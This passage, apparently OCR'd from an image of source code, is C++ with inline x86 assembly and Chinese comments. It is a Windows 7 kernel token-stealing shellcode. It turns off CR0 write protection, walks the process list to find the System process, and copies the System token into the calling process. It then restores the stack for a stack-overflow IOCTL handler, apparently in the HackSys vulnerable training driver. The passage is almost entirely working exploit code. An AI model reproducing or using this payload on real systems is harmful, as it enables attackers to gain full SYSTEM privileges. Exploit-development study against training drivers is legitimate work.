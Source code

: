 ```cpp
	}

	//关闭页读写	
	__asm
	{
		cli
		mov eax, cr0
		and eax, ~0x10000
		mov cr0, eax
	}

	_asm
	{
		//得到当前线程
		mov eax,fs:[0x124];
		//根据线程得到当前进程，并保存在esi中
		mov esi,[eax+0x150];
		//将当前进程先保存一下
		mov eax,esi;
searchWin7:
		//得到进程活动链表
		mov eax,[eax+0xb8];
		//得到每个活动进程的链表头
		sub eax,0xb8;
		//得到进程的PID
		mov ebx,[eax+0xb4];
		//比较PID是否是system进程
		cmp ebx,0x4;
		//不是就进行跳转
		jne searchWin7;
		//得到system进程的Token
		mov eax,[eax+0xf8];
		//将本进程的Token替换成System进程的Token
		mov [esi+0xf8],eax;
	}

	//开启页读写
	__asm
	{
		mov eax, cr0
		or eax, 0x10000
		mov cr0, eax
		sti
	}

	_asm
	{
               //恢复栈帧
		add esp,0x40;

		//还原以前的寄存器状态
		popfd;
		popad;

		//eax里面存放返回值，确保为正确
		xor eax,eax;
		//这两步的操作是因为BufferOverflowStackIoctlHandle在函数结尾处使用的。
		//是为了确保栈平衡使用的。
		//当IrpDeviceIoCtlHandler函数进入BufferOverflowStackIoctlHandler后会先保存IrpDeviceIoCtlHandler函数的ebp，
		//所以我们的shellcode函数等价于BufferOverflowStackIoctlHandler函数，
		//当我们出shellcode函数的时候，
		//我们也要将IrpDeviceIoCtlHandler函数原来的ebp还原回去。
```